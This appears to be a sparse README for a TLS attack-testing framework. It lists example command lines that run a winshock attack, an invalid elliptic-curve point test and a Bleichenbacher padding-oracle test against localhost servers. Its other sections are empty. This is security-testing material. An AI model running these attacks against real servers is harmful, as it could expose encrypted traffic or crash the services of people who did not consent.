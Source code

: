 # TLS-Attacker-Development

Examples:

TLS: 
- 

Attacks: 
- java -jar Attacks-1.0-SNAPSHOT-jar-with-dependencies.jar winshock -connect localhost:51624 -cipher TLS_ECDH_ECDSA_WITH_AES_256_CBC_SHA -keystore ../../resources/ec256.jks -password password -alias mykey -signature 0x820428032402403284024032 -signature_length 5000
- java -jar Attacks-1.0-SNAPSHOT-jar-with-dependencies.jar elliptic_test -connect localhost:54433 -named_curve SECP192R1 -public_point_base_x 0x9d42769dfdbe113a851bb6b01b1a515d893b5adbc1f61329 -public_point_base_y 0x74749ac0967a8ff4cc54d93187602dd67eb3d22970aca2ca -premaster_secret 0x9d42769dfdbe113a851bb6b01b1a515d893b5adbc1f61329 -cipher TLS_ECDH_ECDSA_WITH_AES_128_CBC_SHA
- java -jar Attacks-1.0-SNAPSHOT-jar-with-dependencies.jar bleichenbacher_test -connect localhost:51624

Fuzzer:
- 
